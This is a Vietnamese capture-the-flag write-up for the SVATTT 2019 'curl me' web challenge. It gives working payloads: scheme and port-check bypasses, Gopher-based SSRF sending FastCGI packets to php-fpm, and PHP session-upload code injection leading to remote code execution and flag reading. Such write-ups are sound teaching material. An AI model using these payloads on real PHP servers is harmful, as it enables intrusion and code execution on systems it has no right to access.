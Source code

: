 Xin chào, mình là `Vịnh (@vinhjaxt)`!

Vừa qua (03/11/2019), mình có tham gia cuộc thi SVATTT 2019 vòng sơ khảo, thuộc team `KMA PeBois`.

Sau đây, mình xin phép đại diện cho team, viết writeup bài web có tiêu đề `curl me`.

# Đề bài
```
Curl me
Source code: https://drive.google.com/file/d/10fXfOHVbtth28677oQ6Xxorgq5Tv3Dik/view
URL: http://125.235.240.170/
```

# Hint
Sau khi team mình giải được, btc cho hint, team sợ vô cùng :(
```
1. gopherus
```

# Source index.php
```php
<?php
if (isset($_GET["url"])) {
    $url = $_GET["url"];
    $parse = parse_url($url);

    if (isset($parse["scheme"]) && !in_array($parse["scheme"], array("file", "gopher"))) {
        if (!isset($parse["port"]) || $parse["port"] != 9000) {
            $path = urldecode(isset($parse["path"])?$parse["path"]:"");
            if (!preg_match("/flag/i", $path)) {
                $ch = curl_init();
                curl_setopt($ch, CURLOPT_URL, $url);
                curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
                curl_setopt($ch, CURLOPT_HEADER, false);
                $output = curl_exec($ch);
                curl_close($ch);
                die($output);
            }
        }
    }
    die("dont hack :)");
}
?>
<a href ="?url=https://pastebin.com/raw/jEwTz1cP">Curl flag</a>
```
Sau khi thấy 2 bài `curl 1` và `curl 2`, team mình nghĩ, `curl 1` sẽ phải làm cách nào đó để đọc file `/flag1` thông qua curl php.
Còn `/flag2`, muốn đọc được thì phải rce, liên quan đến php-fpm.
Hơn nữa, gần đây có cái CVE của php-fpm, chắc là cần dùng đến nó.

Với `curl 1`:
Để đọc được file `/flag1` thì ta phải bypass 2 thứ:
- parse_url với sheme được check không cho `file`, `gopher`: Cái này bypass khá đơn giản, team gửi url với scheme là `File` hay là `Gopher`
- `preg_match("/flag/i", $path)`: cái này thì coi như xong, trong suốt thời gian cuộc thi diễn ra, team mình vẫn chưa biết làm sao vượt được, sau khi kết thúc cuộc thi mới được share `File:///#/../flag1`

Với chiến lược: thôi thì đằng nào chả phải làm cái `curl 2`, làm được cái 2 rồi ăn cái 1 cũng được, team mình bắt đầu chuyển sang hướng khác.

Ban đầu, check với poc của CVE-2019-11043 (https://github.com/neex/phuip-fpizdam), không chạy.

Không sao! Chắc tác giả muốn các đội tìm hiểu sâu hơn vào cách poc hoạt động, team mình đọc blog của Orange (http://blog.orange.tw/) và improve poc: Không thành công

OK, không sao, còn nữa, port 9000, nếu mà vượt được thì chắc là hay ho =)).

Sau khi có tin nhắn `Ém flag à em =))`, mình thấy `PeBois` sắp thành `Phế Bois` rồi =)), bắt đầu fuzz lại cái parse_url hy vọng kiếm được chút đỉnh để vượt qua cơn khó khăn này.

Thật may mắn, payload `?url=Gopher:/127.0.0.1:9000`
với php:
```php
php > var_dump(parse_url("Gopher:/127.0.0.1:9000"));
array(2) {
  ["scheme"]=>
  string(6) "Gopher"
  ["path"]=>
  string(15) "/127.0.0.1:9000"
}
```
nhưng với curl:
```bash
$ curl 'Gopher:/127.0.0.1:9000' -v
*   Trying 127.0.0.1:9000...
* TCP_NODELAY set
* connect to 127.0.0.1 port 9000 failed: Connection refused
* Failed to connect to 127.0.0.1 port 9000: Connection refused
* Closing connection 0
```
Đến đây thì coi như toang (vượt được check port 9000), con đường thênh thang rộng mở mà rce vào thôi.

Để rce, team mình có 2 phương án:
- Thực hiện giống poc của CVE-2019-11043: Cách này đòi hỏi race condition quyết liệt
- Tham khảo poc CVE-2019-11043, thực hiện php session upload injection (cái này mình không biết gọi thế nào cho đúng :((, lấy từ ý tưởng lúc chơi `balsnctf`) và php-fpm (giống với SVATTT 2018 Quals của tác giả [@haxor](https://www.facebook.com/haxor.1337.xxx))

Không chần chừ, team mình chọn cách 2:

Đề thực hiện cách này, team mình cần:
- Một session của php
- Inject shell vào session đó bằng việc upload
- Include session đó sử dụng gopher để thay đổi setting auto_prepend_file của php-fpm và gọi shell

OK! Giải quyết từng vấn đề một:
- Để có được session, team mình sử dụng gopher, thay đổi setting `session.auto_start=1` của php-fpm

Sử dụng script (https://raw.githubusercontent.com/ONsec-Lab/scripts/master/fastcgipacket.rb) để gen với php-fpm params:
```ruby
packet << FCGIRecord::Params.new(1,
  "REQUEST_METHOD" => "GET",
  "SCRIPT_FILENAME" => "/var/www/html/index.php",
  "PHP_ADMIN_VALUE" => "session.auto_start=1"
).to_s
```
Sau khi gửi lên server, team mình có session của php `mhjuo9kbjf5fpkv0c2sk11mclo` (trả về dạng: `Set-Cookie: PHPSESSID=mhjuo9kbjf5fpkv0c2sk11mclo`)

- Để inject shell vào session này, team mình thực hiện upload liên tục lên server:
```js
      {
        method: 'POST',
        url: 'http://125.235.240.170/info.php?0=/var/lib/php/sessions/sess_mhjuo9kbjf5fpkv0c2sk11mclo',
        headers: {
          Connection: 'close',
          Cookie: 'PHPSESSID=mhjuo9kbjf5fpkv0c2sk11mclo'
        },
        formData: {
          PHP_SESSION_UPLOAD_PROGRESS: 'XXXXXvinhjaxtXXXXX',
          f: {
            value: `A`.repeat(100 * 1024),
            options: {
              filename: `<?php $v=chr(47).'getflag'; echo \`$v\`; ?>`, // Đọc flag2 nè
              contentType: 'image/jpeg'
            }
          }
        }
      }
```
- Để thực thi shell, team mình gửi request thay đổi `auto_prepend_file=/var/lib/php/sessions/sess_mhjuo9kbjf5fpkv0c2sk11mclo` c

Thực hiện script fastcgipacket.rb với custom:
```ruby
packet << FCGIRecord::Params.new(1,
  "REQUEST_METHOD" => "GET",
  "SCRIPT_FILENAME" => "/var/www/html/index.php",
  "PHP_ADMIN_VALUE" => "auto_prepend_file=/var/lib/php/sessions/sess_mhjuo9kbjf5fpkv0c2sk11mclo"
).to_s
```
Sau đó gửi nhiều lần payload này lên server bằng cách chạy nhiều lần script sau (bằng tay :p):
```php
<?php
$out = "\x01\x01\x00\x01\x00\x08\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x01\x04\x00\x01\x00\x93\x03\x00\x0e\x03\x52\x45\x51\x55\x45\x53\x54\x5f\x4d\x45\x54\x48\x4f\x44\x47\x45\x54\x0f\x17\x53\x43\x52\x49\x50\x54\x5f\x46\x49\x4c\x45\x4e\x41\x4d\x45\x2f\x76\x61\x72\x2f\x77\x77\x77\x2f\x68\x74\x6d\x6c\x2f\x69\x6e\x64\x65\x78\x2e\x70\x68\x70\x0f\x47\x50\x48\x50\x5f\x41\x44\x4d\x49\x4e\x5f\x56\x41\x4c\x55\x45\x61\x75\x74\x6f\x5f\x70\x72\x65\x70\x65\x6e\x64\x5f\x66\x69\x6c\x65\x3d\x2f\x76\x61\x72\x2f\x6c\x69\x62\x2f\x70\x68\x70\x2f\x73\x65\x73\x73\x69\x6f\x6e\x73\x2f\x73\x65\x73\x73\x5f\x6d\x68\x6a\x75\x6f\x39\x6b\x62\x6a\x66\x35\x66\x70\x6b\x76\x30\x63\x32\x73\x6b\x31\x31\x6d\x63\x6c\x6f\x00\x00\x00\x01\x04\x00\x01\x00\x00\x00\x00\x01\x05\x00\x01\x00\x00\x00\x00";
echo PHP_EOL,file_get_contents("http://125.235.240.170/index.php?url=".rawurlencode("Gopher:/127.0.0.1:9000/_".rawurlencode($out))), PHP_EOL;
```
Thật may mắn, trong một lần gửi lên, server trả về cho mình:
![](https://raw.githubusercontent.com/vinhjaxt/CTF-writeups/master/SVATTT-2019-Quals/Screenshot%20at%202019-11-03%2015-13-44.png)

Và một chút thay đổi để lấy được `/flag1`
```js
filename: `<?php $v=chr(47).'flag1'; echo file_get_contents($v); ?>`,
```
![](https://raw.githubusercontent.com/vinhjaxt/CTF-writeups/master/SVATTT-2019-Quals/Screenshot%20at%202019-11-03%2015-14-44.png)

OK, vậy là xong. Team mình khá vui và gỡ bỏ một số áp lực.
Cảm ơn các bạn/anh/chị/em đã theo dõi writeup, cảm ơn tác giả của challenge, cảm ơn team.
Nếu có góp ý, liên hệ, trao đổi, mọi người vui lòng liên lạc qua:
- Fb: http://fb.com/i.am.Ioser
- Discord: @vinhjaxt#2733
- Twitter: @vinhjaxt

# Tham khảo thêm
- https://www.zybuluo.com/shaobaobaoer/note/1214441
- http://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html
